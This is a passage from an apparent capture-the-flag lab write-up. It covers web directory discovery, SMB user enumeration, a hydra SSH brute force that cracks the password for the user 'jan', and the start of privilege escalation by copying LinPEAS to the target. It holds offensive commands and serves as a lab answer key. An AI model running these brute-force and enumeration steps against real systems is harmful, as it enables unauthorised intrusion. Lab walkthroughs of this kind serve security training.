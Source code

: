 **🔑 Target Directory:**
- **Answer:** `development`

**💡 Discovery Method:**
- Use directory enumeration tools like Gobuster
- Check for common directories and hidden paths
- Look for development, admin, or backup directories

### 🔍 Additional Enumeration
```bash
# Check for robots.txt and sitemap.xml
curl http://<TARGET_IP>/robots.txt
curl http://<TARGET_IP>/sitemap.xml

# Examine page source
curl -s http://<TARGET_IP> | grep -i "hidden\|comment\|password"
```

## 👥 Task 3: User Discovery & Brute Force

### 🔍 SMB Enumeration
```bash
enum4linux <TARGET_IP>
```

**👤 Discovered Users:**
- **User 1:** `jan`
- **User 2:** `kay`

### 🔐 SSH Brute Force Attack
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP> -t 4 -V
```

**🎯 Results:**
- **Username:** `jan`
- **Password:** `armando`
- **Service:** `SSH`

**💡 Pro Tips:**
- Always try common usernames first (admin, user, test, etc.)
- Use targeted wordlists based on context clues
- Monitor failed login attempts to avoid account lockouts

## 🚀 Task 4: Privilege Escalation

### 🐚 Initial Access
```bash
ssh jan@<TARGET_IP>
```

### 🔍 Enumeration with LinPEAS
```bash
# On attacker machine
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

# Transfer to target
scp linpeas.sh jan@<TARGET_IP>:/tmp/

# On target machine
chmod +x /tmp/linpeas.sh
./tmp/linpeas.sh
```
